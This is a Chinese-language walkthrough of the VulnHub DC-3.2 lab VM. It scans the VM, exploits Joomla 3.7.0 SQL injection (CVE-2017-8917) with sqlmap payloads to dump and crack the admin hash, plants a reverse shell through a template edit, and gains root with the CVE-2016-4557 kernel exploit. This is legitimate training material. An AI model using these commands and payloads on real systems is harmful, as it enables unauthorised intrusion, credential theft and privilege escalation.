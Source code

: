 # DC: 3.2

下载地址：https://download.vulnhub.com/dc/DC-3-2.zip

## 实战演练

> 需要在虚拟机删除磁盘，不然开不了机

发现靶场IP地址：`192.168.32.159`

![image-20220621163312681](../../.gitbook/assets/image-20220621163312681.png)

扫描对外开放端口

```
┌──(root💀kali)-[/tmp]
└─# nmap  -sT -sV  -p1-65535 192.168.32.159                                                                 2 ⚙
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-21 04:33 EDT
Nmap scan report for 192.168.32.159
Host is up (0.00026s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 00:0C:29:6C:92:FC (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.91 seconds

```

浏览器访问80端口

![image-20220621163752358](../../.gitbook/assets/image-20220621163752358.png)

扫描web目录，找到靶场的web系统的框架是`joomla`

![image-20220621164402172](../../.gitbook/assets/image-20220621164402172.png)

![image-20220621164320949](../../.gitbook/assets/image-20220621164320949.png)

使用`droopescan`查找有用的信息

```
┌──(root💀kali)-[/tmp]
└─# docker run  droopescan scan joomla  -u  http://192.168.32.159                                                2 ⚙
[+] Possible version(s):                                                        
    3.7.0
    3.7.0-beta2
    3.7.0-beta3
    3.7.0-beta4
    3.7.0-rc4
    3.7.1
    3.7.1-rc1
    3.7.1-rc2
    3.7.2
    3.7.3
    3.7.3-beta1
    3.7.3-rc2
    3.7.4
    3.7.4-beta1
    3.7.4-rc1
    3.7.5
    3.8.0
    3.8.0-beta1
    3.8.0-beta2
    3.8.0-beta3
    3.8.0-beta4
    3.8.1
    3.8.1-rc
    3.8.2
    3.8.2-rc
    3.8.3
    3.8.3-rc

[+] Possible interesting urls found:
    Detailed version information. - http://192.168.32.159/administrator/manifests/files/joomla.xml
    Login page. - http://192.168.32.159/administrator/
    License file. - http://192.168.32.159/LICENSE.txt
    Version attribute contains approx version - http://192.168.32.159/plugins/system/cache/cache.xml

[+] Scan finished (0:00:00.081589 elapsed)

```

查看可以利用的EXP脚本

![image-20220621164613442](../../.gitbook/assets/image-20220621164613442.png)

找到可以利用的脚本

```
┌──(root💀kali)-[/tmp]
└─# cat 42033.txt 
# Exploit Title: Joomla 3.7.0 - Sql Injection
# Date: 05-19-2017
# Exploit Author: Mateus Lino
# Reference: https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
# Vendor Homepage: https://www.joomla.org/
# Version: = 3.7.0
# Tested on: Win, Kali Linux x64, Ubuntu, Manjaro and Arch Linux
# CVE : - CVE-2017-8917


URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27


Using Sqlmap:

sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]


Parameter: list[fullordering] (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (DUAL)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(CASE WHEN (1573=1573) THEN 1573 ELSE 1573*(SELECT 1573 FROM DUAL UNION SELECT 9674 FROM DUAL) END)

    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6600 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(6600=6600,1))),0x716a707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu)   
```

使用sqlmap进行测试

```
┌──(root💀kali)-[/tmp]
└─# sqlmap -u "http://192.168.32.159/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch 
```

![image-20220621165023697](../../.gitbook/assets/image-20220621165023697.png)

导出用户信息

```
┌──(root💀kali)-[/tmp]
└─# sqlmap -u "http://192.168.32.159/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]   -D joomladb -T '#__users' --dump
Database: joomladb
Table: #__users
[1 entry]
+-----+-------+--------------------------+----------------------------------------------------------------------------------------------+--------------------------------------------------------------+----------+
| id  | name  | email                    | params                                                                                       | password                                                     | username |
+-----+-------+--------------------------+----------------------------------------------------------------------------------------------+--------------------------------------------------------------+----------+
| 629 | admin | freddy@norealaddress.net | {"admin_style":"","admin_language":"","language":"","editor":"","helpsite":"","timezone":""} | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu | admin    |
+-----+-------+--------------------------+----------------------------------------------------------------------------------------------+--------------------------------------------------------------+----------+

```

使用john进行暴力破解，找到密码为`snoopy`

```
┌──(root💀kali)-[/tmp]
└─# john password.txt --wordlist=/usr/share/wordlists/rockyou.txt                                                                                                                                                                        1 ⨯
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
snoopy           (?)
1g 0:00:00:01 DONE (2022-06-21 05:00) 0.6211g/s 89.44p/s 89.44c/s 89.44C/s 555555..sandra
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

访问`administrator`目录

![image-20220621170148240](../../.gitbook/assets/image-20220621170148240.png)

修改PHP模板为反弹shell

```
http://192.168.32.159/administrator/index.php?option=com_templates&view=template&id=503&file=L2luZGV4LnBocA%3D%3D
```

![image-20220621170736355](../../.gitbook/assets/image-20220621170736355.png)

访问shell地址

```
http://192.168.32.159/templates/beez3/index.php
```

![image-20220621171248061](../../.gitbook/assets/image-20220621171248061.png)

使用CVE-2016-4557漏洞进行提权

```
https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/bin-sploits/39772.zip
```

```
$ unzip 39772.zip
Archive:  39772.zip
   creating: 39772/
  inflating: 39772/.DS_Store         
   creating: __MACOSX/
   creating: __MACOSX/39772/
  inflating: __MACOSX/39772/._.DS_Store  
  inflating: 39772/crasher.tar       
  inflating: __MACOSX/39772/._crasher.tar  
  inflating: 39772/exploit.tar       
  inflating: __MACOSX/39772/._exploit.tar  
$ cd 39772

$ ls
crasher.tar
exploit.tar

$ tar xvf ex*
ebpf_mapfd_doubleput_exploit/
ebpf_mapfd_doubleput_exploit/hello.c
ebpf_mapfd_doubleput_exploit/suidhelper.c
ebpf_mapfd_doubleput_exploit/compile.sh
ebpf_mapfd_doubleput_exploit/doubleput.c

$ ls
crasher.tar
ebpf_mapfd_doubleput_exploit
$ ./compile.sh 

$ ./doubleput
starting writev
woohoo, got pointer reuse
writev returned successfully. if this worked, you'll have a root shell in <=60 seconds.
suid file detected, launching rootshell...
we have root privs now...
uid=0(root) gid=0(root) groups=0(root),33(www-data)

```

![image-20230208134403432](../../.gitbook/assets/image-20230208134403432.png)
